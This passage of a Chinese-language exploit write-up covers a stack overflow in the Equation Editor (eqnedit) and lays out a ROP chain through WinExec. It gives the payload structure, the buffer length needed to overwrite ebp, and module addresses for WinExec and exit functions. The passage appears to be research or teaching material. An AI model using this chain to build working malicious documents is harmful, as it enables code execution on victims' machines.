 [![](https://p3.ssl.qhimg.com/t014eadc37e1c2a5f7e.png)](https://p3.ssl.qhimg.com/t014eadc37e1c2a5f7e.png)

在解析char record和matrlx record记录时会发现栈溢出漏洞。



## 05 利用过程

在x64dbg下使用checksec查看查看eqnedit采用的保护技术。结果如下图所示，只启用了dep措施。所以尝试使用rop的方式来执行命令。

[![](https://p1.ssl.qhimg.com/t018260d34cfe613b79.png)](https://p1.ssl.qhimg.com/t018260d34cfe613b79.png)

先梳理出利用winexec的rop逻辑链条，如下所示：

⚠刚开始组织payload的时候，没有考虑到payload的通用性。经过果哥提醒后注意到，后续组织payload时要考虑通用性。<br><code>payload=buffer+ebp+&amp;Gadgets1+&amp;winexe()+&amp;Gadgets2+&amp;lpCmdLine+uCmdShow+&amp;exit()<br>
Gadgets1=pop;ret;<br>
Gadgets2=pop;pop;ret;</code>

下面开始寻找payload中各部分的地址。

**1、buffer的长度<br>**<br>
进入sub_43ebdf后ebp=0x19efd0，v[7]=ebp-ch，所以需要32byte的buffer内容来覆盖ebp。

[![](https://p1.ssl.qhimg.com/t01a39cc5e92e52774f.png)](https://p1.ssl.qhimg.com/t01a39cc5e92e52774f.png)

**2、&amp;winexec()<br>**<br>
遍历程序加载模块中的winexec()后发现，只有eqnedit和kernel32.dll中有winexec。为了通用性使用eqnedit中的winexec。

[![](https://p1.ssl.qhimg.com/t01fb9debc33b90a390.png)](https://p1.ssl.qhimg.com/t01fb9debc33b90a390.png)

查询交叉引用后eqnedit中只有sub_42D8C0调用了winexec，所以使用eqnedit!sub_42D8C0替代kernel32!winexec。

**3、&amp;exit()<br>**<br>
遍历程序加载模块中的exit()后发现，只有msvcrt.dll，kernelbase.dll，comctl32.dll和eqnedit.exe中有合适的exit()函数。

<code>msvcrt.dll<br>
地址=772D6210<br>
类型=导出<br>
序号=291<br>
符号=_c_exit<br>
msvcrt.dll<br>
地址=772D6230<br>
类型=导出<br>
序号=295<br>
符号=cexit<br>
kernelbase.dll<br>
地址=7656C2C0<br>
类型=导出<br>
序号=1864<br>
符号=cexit<br>
comctl32.dll<br>
地址=65DD8805<br>
类型=符号<br>
符号=__cexit</code>
